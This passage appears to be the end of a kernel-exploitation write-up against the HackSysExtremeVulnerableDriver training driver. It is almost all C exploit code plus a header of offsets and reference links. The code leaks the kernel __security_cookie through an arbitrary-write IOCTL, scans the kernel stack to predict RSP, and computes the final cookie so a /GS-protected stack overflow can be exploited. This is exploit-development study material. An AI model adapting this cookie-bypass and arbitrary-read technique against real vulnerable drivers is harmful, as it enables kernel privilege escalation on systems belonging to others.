DeviceIoControl(hFile, HEVD_IOCTL_BUFFER_OVERFLOW_STACK_GS, buff, buffSize, NULL, 0, NULL, NULL);
return 0;
}
ULONGLONG getBaseAddr(LPCWSTR drvName) {
LPVOID drivers[512];
DWORD cbNeeded;
int nDrivers, i = 0;
if (EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded) && cbNeeded < sizeof(drivers)) {
WCHAR szDrivers[512];
nDrivers = cbNeeded / sizeof(drivers[0]);
for (i = 0; i < nDrivers; i++) {
if (GetDeviceDriverBaseName(drivers[i], szDrivers, sizeof(szDrivers) / sizeof(szDrivers[0]))) {
if (wcscmp(szDrivers, drvName) == 0) {
return (ULONGLONG)drivers[i];
}
}
}
}
return 0;
}
int getSecurityCookie(ULONG64 baseAddr, PULONG64 securityValue, PULONG64 securityAddr) {
/* Usermode sketch
ULONGLONG cookieAddr = baseAddr + SECURITY_COOKIE_OFFSET;
ULONGLONG securityCookie = *(ULONGLONG*)cookieAddr;
*securityAddr = cookieAddr;
*securityValue = securityCookie;
*/
HANDLE hFileLeak = CreateFile(L"\\\\.\\HackSysExtremeVulnerableDriver",
GENERIC_READ | GENERIC_WRITE,
FILE_SHARE_READ | FILE_SHARE_WRITE,
NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
if (hFileLeak == INVALID_HANDLE_VALUE) {
printf("\t[-] Driver not found: %d\n", GetLastError());
return 1;
}
printf("\t[+] Driver Leak handle @ %p\n", hFileLeak);
PWRITE_WHAT_WHERE inputBuffer = (PWRITE_WHAT_WHERE)malloc(sizeof(WRITE_WHAT_WHERE));
printf("\t[+] Triggering Arbitrary Write to leak cookie...\n");
ULONGLONG cookieAddrKrnl = baseAddr + SECURITY_COOKIE_OFFSET;
printf("\t[+] Kernel Source (What): 0x%llX\n", cookieAddrKrnl);
inputBuffer->What = (PULONG_PTR)cookieAddrKrnl;
inputBuffer->Where = (PULONG_PTR)securityValue;
printf("\t[+] User Destination (Where): 0x%p\n", securityValue);
BOOL status = DeviceIoControl(hFileLeak, HEVD_IOCTL_ARBITRARY_WRITE, inputBuffer, sizeof(inputBuffer), NULL, 0, NULL, NULL);
if (!status)
printf("\t[-] DeviceIoControl failed: %d\n", GetLastError());
else {
*securityAddr = cookieAddrKrnl;
printf("\t[+] __security_cookie leaked: 0x%llX\n", *securityValue);
}
printf("[!] Driver Leak Handle closing...\n");
free(inputBuffer);
CloseHandle(hFileLeak);
return status ? 0 : 1;
}
ULONG64 GetStackLimit() {
printf("\t[*] Extracting StackLimit value...\n");
ULONG returnLength = 0;
NtQuerySystemInformation((SYSTEM_INFORMATION_CLASS)57, NULL, 0, &returnLength);
PSYSTEM_EXTENDED_PROCESS_INFORMATION pProcInfo = (PSYSTEM_EXTENDED_PROCESS_INFORMATION)malloc(returnLength);
if (NT_SUCCESS(NtQuerySystemInformation((SYSTEM_INFORMATION_CLASS)57, pProcInfo, returnLength, &returnLength))) {
DWORD currentPid = GetCurrentProcessId();
DWORD currentTid = GetCurrentThreadId();
printf("\t\t[+] Current Process ID: 0x%lX\n", currentPid);
printf("\t\t[+] Current Thread ID: 0x%lX\n", currentTid);
PSYSTEM_EXTENDED_PROCESS_INFORMATION pCurrProc = pProcInfo;
while (pCurrProc) {
if ((DWORD_PTR)(pCurrProc->ProcessInfo.UniqueProcessId) == currentPid) {
for (ULONG i = 0; i < pCurrProc->ProcessInfo.NumberOfThreads; i++) {
if ((DWORD_PTR)(pCurrProc->Threads[i].ThreadInfo.ClientId.UniqueThread) == currentTid) {
ULONG64 stackLimit = (ULONG64)pCurrProc->Threads[i].StackLimit;
free(pProcInfo);
printf("\t\t[+] StackLimit found: 0x%llX\n", stackLimit);
return stackLimit;
}
}
}
if (!pCurrProc->ProcessInfo.NextEntryOffset) break;
pCurrProc = (PSYSTEM_EXTENDED_PROCESS_INFORMATION)((PUCHAR)pCurrProc + pCurrProc->ProcessInfo.NextEntryOffset);
}
}
if (pProcInfo) free(pProcInfo);
return 0;
}
ULONG64 ArbitraryRead64(HANDLE hDriver, ULONG64 kernelAddress, BOOL* success) {
ULONG64 valueRead = 0;
WRITE_WHAT_WHERE input;
input.What = (PULONG_PTR)kernelAddress;
input.Where = (PULONG_PTR)&valueRead;
DWORD bytesReturned;
BOOL status = DeviceIoControl(hDriver, HEVD_IOCTL_ARBITRARY_WRITE, &input, sizeof(input), NULL, 0, &bytesReturned, NULL);
if (success) *success = status;
if (!status) return 0;
return valueRead;
}
ULONG64 CalculateFinalStackCookie(HANDLE hDriver, ULONG64 originalCookie, ULONG64 stackLimit, ULONG64* outRSP) {
ULONG64 ctlCodeAddress = 0;
ULONG64 currentAddress = stackLimit;
ULONG64 leakedValue = 0;
printf("\t[*] Searching IOCTL (0x22200B) value...\n");
for (int i = 0; i < 0x7000; i++) {
BOOL readOk = FALSE;
leakedValue = ArbitraryRead64(hDriver, currentAddress, &readOk);
if (!readOk) {
printf("[-] Error while calling ArbitraryRead64\n");
return 0;
}
if (leakedValue == HEVD_IOCTL_ARBITRARY_WRITE) {
ctlCodeAddress = currentAddress;
printf("\t[+] IOCTL found @ 0x%llX\n", ctlCodeAddress);
break;
}
currentAddress += 8;
}
if (ctlCodeAddress == 0) {
printf("\t[-] IOCTL doesn't found in the stack\n");
return 0;
}
ULONG64 predictedRSP = ctlCodeAddress - RSP_OFFSET;
printf("\t[+] RSP value: 0x%llX\n", predictedRSP);
ULONG64 finalCookie = originalCookie ^ predictedRSP;
printf("[+] Final cookie: 0x%llX\n", finalCookie);
*outRSP = predictedRSP;
return finalCookie;
}Header file:
#pragma once
#include <windows.h>
#include <stdio.h>
#include <winternl.h>
#include <Psapi.h>
#define IOCTL(Function) CTL_CODE(FILE_DEVICE_UNKNOWN, Function, METHOD_NEITHER, FILE_ANY_ACCESS)
#define HEVD_IOCTL_BUFFER_OVERFLOW_STACK_GS IOCTL(0x801)
#define HEVD_IOCTL_ARBITRARY_WRITE IOCTL(0x802)
#define SECURITY_COOKIE_OFFSET 0x3000
#define RSP_OFFSET 0x2a8
#define BUFFER_SIZE 0x200
#define CANARY_SIZE 0x8
#define OFFSET_RDI 0x20
#define OFFSET_RSI 0x28
#define PADDING_SIZE 0x8 * 6
#define INITIAL_PADDING 0x40
#pragma comment(lib, "ntdll.lib")
#define SystemProcessInformation 5
typedef struct _SYSTEM_EXTENDED_THREAD_INFORMATION {
SYSTEM_THREAD_INFORMATION ThreadInfo;
PVOID StackBase;
PVOID StackLimit;
PVOID Win32StartAddress;
PVOID TebBase;
ULONG_PTR Reserved2;
ULONG_PTR Reserved3;
ULONG_PTR Reserved4;
} SYSTEM_EXTENDED_THREAD_INFORMATION, * PSYSTEM_EXTENDED_THREAD_INFORMATION;
typedef struct _SYSTEM_EXTENDED_PROCESS_INFORMATION {
SYSTEM_PROCESS_INFORMATION ProcessInfo;
SYSTEM_EXTENDED_THREAD_INFORMATION Threads[4];
} SYSTEM_EXTENDED_PROCESS_INFORMATION, * PSYSTEM_EXTENDED_PROCESS_INFORMATION;
ULONGLONG getBaseAddr(LPCWSTR drvName);
ULONG64 CalculateFinalStackCookie(HANDLE hDriver, ULONG64 originalCookie, ULONG64 stackLimit, ULONG64* preditectRSP);
ULONG64 ArbitraryRead64(HANDLE hDriver, ULONG64 kernelAddress, BOOL* success);
ULONG64 GetStackLimit();
int getSecurityCookie(ULONG64 baseAddr, PULONG64 securityValue, PULONG64 securityAddr);
typedef struct _WRITE_WHAT_WHERE
{
PULONG_PTR What;
PULONG_PTR Where;
} WRITE_WHAT_WHERE, * PWRITE_WHAT_WHERE;Resources
- https://flysand7.hashnode.dev/how-security-cookie-works
- https://www.fox-it.com/be-en/defeating-windows-dep-with-a-custom-rop-chain/
- https://hackingiscool.pl/hevd-stackgs-x86-win7/
- https://vuln.dev/windows-kernel-exploitation-hevd-x64-stackoverflow/
- https://github.com/r0r0x-xx/OSED-Pre
- https://medium.com/@sushant.m.mane/hevd-windows-kernel-exploitation-stack-overflow-12be551350f1
- https://writeups.io/summaries/technical-analysis-of-exploit-development-for-hevd-driver-stack-overflow-x64-by-hector-marco-ismael-ripoll/